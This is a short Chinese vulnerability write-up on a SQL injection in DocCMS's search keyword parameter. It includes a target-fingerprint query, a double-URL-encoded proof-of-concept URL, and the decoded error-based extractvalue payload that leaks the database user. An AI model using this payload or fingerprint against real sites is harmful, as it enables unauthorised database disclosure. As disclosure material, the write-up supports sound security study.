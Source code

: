 # DocCMS keyword SQL注入漏洞

## 漏洞描述

DocCMS keyword参数存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

<a-checkbox checked>DocCMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Doccms"</a-checkbox></br>

## 漏洞复现

CMS官网

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210702110657409.png)



验证POC



```plain
/search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210702110838286.png)



其中payload为下列语句的二次Url编码

```plain
' and (extractvalue(1,concat(0x7e,(select user()),0x7e)))#
```